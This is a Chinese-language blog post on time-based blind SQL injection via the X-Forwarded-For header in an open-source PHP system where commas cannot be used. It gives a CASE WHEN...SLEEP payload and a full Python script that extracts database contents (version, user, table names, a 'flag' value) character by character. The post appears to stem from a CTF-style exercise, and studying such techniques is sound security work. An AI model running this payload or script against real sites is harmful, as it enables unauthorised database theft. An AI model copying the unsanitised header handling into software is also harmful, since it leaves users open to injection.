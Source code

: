 ```yaml
---
id: 736
layout: post
title: 'sql注入时case when ... then ... else ...end 的应用'
date: 2016-05-13 18:37:00
author: virusdefender
tags: 
---
```


在基于时间的盲注的时候，一般使用的是if语句，如果符合条件就sleep，但是部分不能使用逗号的场景下，还可以使用`case when #condition then ... else ... end`语句来代替if语句，参考http://dev.mysql.com/doc/refman/5.7/en/control-flow-functions.html。

某开源系统中

```php
$this->ip = mysqli_real_escape_string($mysqli,$_SERVER['REMOTE_ADDR']);
if( !empty( $_SERVER['HTTP_X_FORWARDED_FOR'] ) ){
    $REMOTE_ADDR = $_SERVER['HTTP_X_FORWARDED_FOR'];
    $tmp_ip=explode(',',$REMOTE_ADDR);
    $this->ip = $tmp_ip[0];
}
```

然后注入点在insert和update语句中。一个盲注场景，没有报错和回显。


<!--more-->


这里在`X-FORWARDED-FOR`中按照逗号分隔取IP，而这个字段是用户可控的，需要不出现逗号，或者第一个逗号之前是完整的payload，所以这里不能使用if了，而是使用case语句代替。

当然mid函数也不能用了，需要替换为`substr($string from $post for $length)`的写法。

如果`$string`是sql语句，那就加一个括号。

然后可以按照 https://virusdefender.net/index.php/archives/590/ 逐步的获取全部数据。

一个例子是`1.1.1.1' and case when ord(substr((select username from db.table limit 1) from 1 for 1))=98 then sleep(2) else 1 end and '1.2.3.4`

![请输入图片描述][1]

最终实现的代码是

```python
# coding=utf-8
import time
import requests


url = "http://example.com/"


def get_info(sql):
    print (sql, )
    for position in range(1, 30):
        for ord in range(32, 127):
            start_time = time.time()
            xff = "1.1.1.1' and case when ord(substr({sql} from {position} for 1))={ord} then sleep(3) else 1 end and '1.2.3.4".format(sql=sql, position=str(position), ord=ord)
            # print(xff)
            r = requests.get(url, headers={"X-FORWARDED-FOR": xff})
            end_time = time.time()
            if end_time - start_time > 2.9:
                print (position, chr(ord))
                break
            # print (position, c)
        else:
            return

#get_info("version()")
#get_info("user()")
#for i in range(2):
#    get_info("(select table_name from information_schema.tables where table_schema='ip_db' limit 1 offset {offset})".format(offset=i))

#get_info("(select column_name from information_schema.columns where table_name='flag' and table_schema='ip_db' limit 1)")
#get_info("(select flag from ip_db.flag limit 1)")

```


  [1]: http://storage.virusdefender.net/blog/images/736/1.jpg